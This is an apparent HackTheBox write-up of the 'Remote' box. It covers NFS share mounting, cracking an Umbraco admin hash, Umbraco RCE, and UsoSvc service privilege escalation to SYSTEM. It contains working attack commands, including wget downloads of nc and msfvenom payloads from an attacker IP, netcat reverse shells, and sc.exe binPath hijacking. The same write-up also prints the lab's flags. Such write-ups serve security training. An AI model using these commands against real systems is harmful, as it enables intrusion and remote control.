

# Remote

Author: Ewaël

**Remote** is an easy HackTheBox box by mrb3n.

`nmap -sC -sV -oN nmap 10.10.10.180 -v -A` shows lots of open ports. I start with the allowed anonymous FTP login but there is nothing to see there. Let's move on to the website.



I quickly find an Umbraco login page and `/people` contains potential users I could build a users list with:


I find some Umbraco exploits on Google but I always need some creds first. Let's move on the 2049 port, maybe I am able to get some interesting files through the NFS.

```
$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

Perfect, let's mount this to explore it with `mount -t nfs 10.10.10.180:/site_backups /media/remote`:

```
$ ls -all
total 123
drwx------ 2 nobody 4294967294  4096 Feb 23 13:35 .
drwxr-xr-x 4 root   root        4096 Jun 16 06:25 ..
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 App_Browsers
drwx------ 2 nobody 4294967294  4096 Feb 20 12:17 App_Data
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 App_Plugins
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 aspnet_client
drwx------ 2 nobody 4294967294 49152 Feb 20 12:16 bin
drwx------ 2 nobody 4294967294  8192 Feb 20 12:16 Config
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 css
-rwx------ 1 nobody 4294967294   152 Nov  1  2018 default.aspx
-rwx------ 1 nobody 4294967294    89 Nov  1  2018 Global.asax
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Media
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 scripts
drwx------ 2 nobody 4294967294  8192 Feb 20 12:16 Umbraco
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Umbraco_Client
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Views
-rwx------ 1 nobody 4294967294 28539 Feb 20 00:57 Web.config
```

I quickly find what I think is an interesting line in `Web.config`:

```javascript
<network host="127.0.0.1" userName="username" password="password" />
```

But it turns out to be completly useless. After a lot of wasted time I finally try the correct grep on the correct file: `strings App_Data/Umbraco.sdf | grep admin`:

```
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
```

Cracking `b8be16afba8c314ad33d812f22a04991b90e2aaa` gives `baconandcheese`. Let's not forget the login page says `Your username is usually your email` and log with `admin@htb.local:baconandcheese` creds.


I start moving around searching for a way of uploading my reverse shell without success, so I decide to use this RCE script: [https://github.com/noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)

```
$ python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command ls
```

And it works perfecty well! I get the user flag this way before even trying to get a shell:

```
$ python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command cd /Users/Public; type user.txt'
ee9c5897bdd17b4c9db14cad7333ca29
```

Alright so because it works flawlessly, I decide to use this script to get my stable reverse shell too. I start by uploading `nc64.exe` on the target, then I execute it with `-e` option to start my shell after setting up my listener:

```
$ python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command cd /Users/Public; wget http://10.10.14.44:4444/nc64.exe -o nc.exe'
$ python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command cd /Users/Public; ./nc.exe 10.10.14.44 4444 -e cmd.exe'
```

That's it! I have my shell as `iis apppool\defaultapppool`! I can now upload `winPEAS.exe` the same way to start my enumeration:

```
    LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
    UsoSvc: AllAccess, Start
```

I google a bit to see what to do with this, and I find out that it is related to the CVE-2019-1322 (which makes sense considering the box maker marked it as CVE-oriented btw). I follow [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-10---cve-2019-1322-usosvc):

```
> sc.exe stop UsoSvc
> sc.exe config usosvc binPath="C:\Users\Public\nc.exe 10.10.14.44 4444 -e cmd.exe"
> sc.exe start usosvc
```

Aaaand... It fails. However I am still sure this is the right way to exploit the vulnerability, so I decide to upload a "real" reverse shell instead of trying my own sh\*tty stuff:

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.44 LPORT=4444 -f exe --platform windows -o revshell.exe
$ python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command cd /Users/Public; wget http://10.10.14.44:4444/revshell.exe -o revshell.exe'
```

I do the same routine again with `sc config usosvc binpath="c:\users\public\revshell.exe"` and it runs correctly this time, spawning me a shell as `authority\system`:

`a723c3504901d814e60dcab814731549`

Really loved this box, learned a ton of things about windows exploitation, huge thank's to the creator.
